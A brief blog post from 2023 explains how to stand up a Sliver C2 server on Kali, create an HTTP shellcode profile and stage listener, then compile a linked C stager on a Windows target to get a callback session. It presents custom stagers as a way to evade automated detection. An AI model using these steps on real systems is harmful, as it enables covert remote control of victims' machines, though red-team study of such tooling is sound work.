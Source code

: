 ```yaml
---
title: "Custom sliver stager"
date: "2023-01-08"
layout: post
---
```


First all props go to Dominic doing all the hard work and if you want to know the nitty gritty plus different ways of getting custom stagers up and running go check out his write up.

[https://dominicbreuker.com/post/learning\_sliver\_c2\_06\_stagers/](https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/)

My experience is that custom stagers can help evade automated detection mechanisms but realizing it's always a cat and mouse game these are just the steps that have worked for me as of this write up.


Sliver instructions within Kali

```bash
apt-get install sliver
sliver-server
profiles new --http IP:80 --format shellcode name
stage-listener --url http://IP:80 --profile name
```

Above the IP is the C2 server / Kali IP address and the 'name' refers to the unique name you assign it on the command line. Once that's done then head over to your windows target and compile the stager following the simple instructions below.

[https://github.com/travisaltman/sliver-c-stager/blob/main/README.md](https://github.com/travisaltman/sliver-c-stager/blob/main/README.md)

After executing the compiled exe you should hopefully have a session within Sliver to continue your post exploitation goodness.
